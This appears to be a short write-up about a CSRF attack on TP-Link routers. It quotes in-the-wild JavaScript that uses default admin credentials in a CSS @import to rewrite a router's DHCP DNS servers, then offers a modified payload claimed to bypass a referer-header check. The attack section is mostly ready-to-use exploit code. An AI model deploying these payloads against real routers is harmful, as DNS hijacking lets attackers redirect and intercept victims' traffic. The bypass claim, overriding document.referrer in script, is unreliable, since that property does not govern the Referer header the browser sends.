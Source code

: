 In this [blog post](http://www.jakoblell.com/blog/2013/10/30/real-world-csrf-attack-hijacks-dns-server-configuration-of-tp-link-routers-2/), Jakob Lell writes about an attack on tp-link browsers his honeypots picked up on where a CSRF attack is made against TP-Link routers.

In the attack, the attacker uploads javascript to a site that the target visits, which when visited triggers the csrf attack.

The attack code looked like this (wherein the attack changes the DNS settings on the server to point to Google's DNS)

```
document.writeln('<style type="text/css">@import url(http://admin:admin@192.168.1.1/userRpm/LanDhcpServerRpm.htm?dhcpserver=1&ip1=192.168.1.100&ip2=192.168.1.199&Lease=120&gateway=0.0.0.0&domain=&dnsserver=106.187.36.85&dnsserver2=8.8.8.8&Save=%B1%A3+%B4%E6);</style>')
```

On a new version of TP-Link, I found they added a server-side protection that checks the referer header (in addition to changing the ip to 192.168.0.1). This can be trivially bypassed in javascript by modifying the attack to look like so:

```
Object.defineProperty(document, "referrer", {get : function(){ return "http://192.168.0.1/userRpm/LanDhcpServerRpm.htm?dhcpserver=1&ip1=192.168.0.100&ip2=192.168.0.199&Lease=120&gateway=0.0.0.0&domain=&dnsserver=8.8.4.4&dnsserver2=8.8.8.8&Save=Save"; }});

document.writeln('<style type="text/css">@import url(http://admin:admin@192.168.0.1/userRpm/LanDhcpServerRpm.htm?dhcpserver=1&ip1=192.168.0.100&ip2=192.168.0.199&Lease=120&gateway=0.0.0.0&domain=&dnsserver=8.8.4.4&dnsserver2=8.8.8.8&Save=Save);</style>');
```

Wherein we first set the referrer to an acceptable string, then trigger the attack (with the ip updated).

